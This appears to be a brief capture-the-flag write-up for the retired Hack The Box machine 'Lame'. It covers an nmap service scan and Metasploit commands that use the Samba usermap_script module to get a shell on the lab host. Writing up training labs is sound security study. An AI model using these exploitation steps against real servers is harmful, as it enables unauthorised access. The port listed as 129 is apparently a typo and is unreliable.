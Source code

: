 <h1>LAME 10.10.10.3 Write Up</h1>

<h2>Contents</h2>

- [Tools](#tools)
- [Enumeration](#enumeration)
- [Exploitaton](#exploitation)
- [Walkthrough](#walkthrough)

Retired Easy Machine by ch4p
<img src="./img/1a.png?raw=true" width="80%" alt="Lame profile">

## Tools
1. nmap
2. Metasploit

## Enumeration

1. At first we use nmap (Network Mapping tool) to scan the box ip. When we run it we got list of some open ports and services running on those ports. On the Lame box we can see, open ports and services are, port 21 for vsftpd 2.3.4, port 22 for SSH, port 129 and 445 for Samba smbd 3.X-4.X `nmap -sV 10.10.10.3`
2. When we google about those running services to gather information about those services, we get Samba smbd 3.X is vulnerable and fortunately an metasploit module is there to exploit the service.

## Exploitation
1. Using metasploit we can use the exploit to shell the box.
    ```bash
    use exploit/multi/samba/usermap_script
    msf exploit(multi/samba/usermap_script) > set rhost 10.10.10.3
    msf exploit(multi/samba/usermap_script) > exploit 
    ```
  